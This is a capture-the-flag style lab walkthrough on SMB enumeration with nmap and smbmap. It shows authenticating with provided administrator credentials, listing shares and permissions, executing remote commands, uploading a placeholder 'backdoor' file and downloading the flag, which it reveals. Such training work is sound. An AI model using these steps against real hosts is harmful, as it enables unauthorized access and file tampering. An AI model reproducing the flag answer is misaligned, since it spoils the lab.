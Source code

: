 # Windows Recon: SMBMap

### Task

> A Kali GUI machine and a target machine running an SMB service are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target).&#x20;
>
> Your task is to fingerprint the service using the tools available on the Kali machine and run the smbmap tool to enumerate the target machine service.
>
> [**SMBMap**](https://github.com/ShawnDEvans/smbmap)**:**
>
> * Allows users to enumerate samba share
> * Allows file upload/download/delete
> * Permission enumeration (writable share, meet Metasploit)
> * etc.
>
> **Objective:** Enumerate the target machine SMB service using the smbmap tool and discover the flag.
>
> The following username and password may be used to access the service:
>
> \| Username | Password | | administrator | smbserver\_771 |
>
> **Instructions:**\* Your Kali machine has an interface with IP address 10.10.X.Y. Run “ip addr” to know the values of X and Y. \* The IP address of the target machine is mentioned in the file “/root/Desktop/target” \* Do not attack the gateway located at IP address 192.V.W.1 and 10.10.X.1



Target:  `10.0.31.120`

* Checking for target machine IP address is alive or not, and run a default port scanning

> Found out that SMB port 445 is exposed.

```bash
root@attackdefense:~# ping 10.0.31.120
PING 10.0.31.120 (10.0.31.120) 56(84) bytes of data.
64 bytes from 10.0.31.120: icmp_seq=1 ttl=125 time=3.66 ms
64 bytes from 10.0.31.120: icmp_seq=2 ttl=125 time=2.47 ms
64 bytes from 10.0.31.120: icmp_seq=3 ttl=125 time=2.52 ms
64 bytes from 10.0.31.120: icmp_seq=4 ttl=125 time=2.47 ms
64 bytes from 10.0.31.120: icmp_seq=5 ttl=125 time=2.74 ms

root@attackdefense:~# nmap 10.0.31.120
Starting Nmap 7.91 ( https://nmap.org ) at 2024-06-26 14:06 IST
Nmap scan report for 10.0.31.120
Host is up (0.0025s latency).
Not shown: 992 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 1.56 seconds
```

* Run Nmap script of `smb-protocols` to list the supported protocols and dialects of an SMB server.

```bash
root@attackdefense:~# nmap --script=smb-protocols -p445 10.0.31.120
Starting Nmap 7.91 ( https://nmap.org ) at 2024-06-26 14:07 IST
Nmap scan report for 10.0.31.120
Host is up (0.0024s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-protocols: 
|   dialects: 
|     NT LM 0.12 (SMBv1) [dangerous, but default]
|     2.02
|     2.10
|     3.00
|_    3.02

Nmap done: 1 IP address (1 host up) scanned in 6.41 seconds
```

* Use the `smbmap` python script to enumerate the target machine with default `guest` and `null password` followed
  * `-d`: directory
  * `-H`: host

```bash
root@attackdefense:~# smbmap -u guest -p "" -d . -H 10.0.31.120
[+] Guest session   	IP: 10.0.31.120:445	Name: 10.0.31.120                                       
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C                                                 	NO ACCESS	
	C$                                                	NO ACCESS	Default share
	D$                                                	NO ACCESS	Default share
	Documents                                         	NO ACCESS	
	Downloads                                         	NO ACCESS	
	IPC$                                              	READ ONLY	Remote IPC
	print$                                            	READ ONLY	Printer Drivers
```

* Notice that the `guest` account is enabled and it doesn’t have `permission` to `write` on any of the shared folders.&#x20;

> Run `smbmap` with administrator user credentials given
>
> * Username: `administrator`
> * Password: `smbserver_771`

```bash
root@attackdefense:~# smbmap -u administrator -p smbserver_771 -d . -H 10.0.31.120
[+] IP: 10.0.31.120:445	Name: 10.0.31.120                                       
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	READ, WRITE	Remote Admin
	C                                                 	READ ONLY	
	C$                                                	READ, WRITE	Default share
	D$                                                	READ, WRITE	Default share
	Documents                                         	READ ONLY	
	Downloads                                         	READ ONLY	
	IPC$                                              	READ ONLY	Remote IPC
	print$                                            	READ, WRITE	Printer Drivers
```

* Notice that found all the shares along with their permissions along with and the comment.

> Execute the command on the target machine through SMB by using `-x '<command>'`

* Commands can be executed on the target machine without any issue. With this, we can abuse and gain a normal or meterpreter shell. In this lab, will be focusing on enumeration using `smbmap`, without gaining the shell

```bash
root@attackdefense:~# smbmap -u administrator -p smbserver_771 -H 10.0.31.120 -x 'ipconfig'
                                
Windows IP Configuration


Ethernet adapter Ethernet 3:

   Connection-specific DNS Suffix  . : ap-southeast-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::8a:2b40:30fe:e201%22
   IPv4 Address. . . . . . . . . . . : 10.0.31.120
   Subnet Mask . . . . . . . . . . . : 255.255.240.0
   Default Gateway . . . . . . . . . : 10.0.16.1

Tunnel adapter isatap.ap-southeast-1.compute.internal:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : ap-southeast-1.compute.internal
```

* Listing all drives on the specified host with `-L` option.

```bash
root@attackdefense:~# smbmap -H 10.0.31.120 -u administrator -p smbserver_771 -L
[+] Host 10.0.31.120 Local Drives: C:\ D:\
[+] Host 10.0.31.120 Net Drive(s):
	No mapped network drives
```

* List contents of the directory of `C:\ drive` using `-r` option.

```bash
root@attackdefense:~# smbmap -H 10.0.31.120 -u administrator -p smbserver_771 -r 'C$'
[+] IP: 10.0.31.120:445	Name: 10.0.31.120                                       
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	C$                                                	READ, WRITE	
	.\C$\*
	dr--r--r--                0 Sat Sep  5 13:26:00 2020	$Recycle.Bin
	fw--w--w--           398356 Wed Aug 12 10:47:41 2020	bootmgr
	fr--r--r--                1 Wed Aug 12 10:47:40 2020	BOOTNXT
	dr--r--r--                0 Wed Aug 12 10:47:41 2020	Documents and Settings
	fr--r--r--               32 Mon Dec 21 21:27:10 2020	flag.txt
	fr--r--r--       8589934592 Wed Jun 26 14:03:35 2024	pagefile.sys
	dr--r--r--                0 Wed Aug 12 10:49:32 2020	PerfLogs
	dw--w--w--                0 Wed Aug 12 10:49:32 2020	Program Files
	dr--r--r--                0 Sat Sep  5 14:35:45 2020	Program Files (x86)
	dr--r--r--                0 Sat Sep  5 14:35:45 2020	ProgramData
	dr--r--r--                0 Sat Sep  5 09:16:57 2020	System Volume Information
	dw--w--w--                0 Sat Dec 19 11:14:55 2020	Users
	dr--r--r--                0 Wed Jun 26 14:12:35 2024	Windows
```

* Create a backdoor file

```bash
root@attackdefense:~# touch backdoor

root@attackdefense:~# ls
Desktop  backdoor  thinclient_drives
```

* Upload `backdoor` file to the `C:\` drive

```bash
root@attackdefense:~# smbmap -H 10.0.31.120 -u administrator -p smbserver_771 --upload '/root/backdoor' 'C$\backdoor'
[+] Starting upload: /root/backdoor (0 bytes)
[+] Upload complete

root@attackdefense:~# smbmap -H 10.0.31.120 -u administrator -p smbserver_771 -r 'C$'                                
[+] IP: 10.0.31.120:445	Name: 10.0.31.120                                       
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	C$                                                	READ, WRITE	
	.\C$\*
	dr--r--r--                0 Sat Sep  5 13:26:00 2020	$Recycle.Bin
	fr--r--r--                0 Wed Jun 26 14:21:18 2024	backdoor
	fw--w--w--           398356 Wed Aug 12 10:47:41 2020	bootmgr
	fr--r--r--                1 Wed Aug 12 10:47:40 2020	BOOTNXT
	dr--r--r--                0 Wed Aug 12 10:47:41 2020	Documents and Settings
	fr--r--r--               32 Mon Dec 21 21:27:10 2020	flag.txt
	fr--r--r--       8589934592 Wed Jun 26 14:03:35 2024	pagefile.sys
	dr--r--r--                0 Wed Aug 12 10:49:32 2020	PerfLogs
	dw--w--w--                0 Wed Aug 12 10:49:32 2020	Program Files
	dr--r--r--                0 Sat Sep  5 14:35:45 2020	Program Files (x86)
	dr--r--r--                0 Sat Sep  5 14:35:45 2020	ProgramData
	dr--r--r--                0 Sat Sep  5 09:16:57 2020	System Volume Information
	dw--w--w--                0 Sat Dec 19 11:14:55 2020	Users
	dr--r--r--                0 Wed Jun 26 14:12:35 2024	Windows

```

* Notice there's is a `flag.txt file`, download `flag.txt` file into local host machine.

```bash
root@attackdefense:~# smbmap -H 10.0.31.120 -u administrator -p smbserver_771 --download 'C$\flag.txt'
[+] Starting download: C$\flag.txt (32 bytes)
[+] File output to: /root/10.0.31.120-C_flag.txt

root@attackdefense:~# ls        
10.0.31.120-C_flag.txt	Desktop  backdoor  thinclient_drives

root@attackdefense:~# cat 10.0.31.120-C_flag.txt 
25f492dbef8453cdca69a173a75790f0
```

<details>

<summary>Flag</summary>

<pre data-overflow="wrap" data-full-width="false"><code><strong>25f492dbef8453cdca69a173a75790f0
</strong></code></pre>

</details>

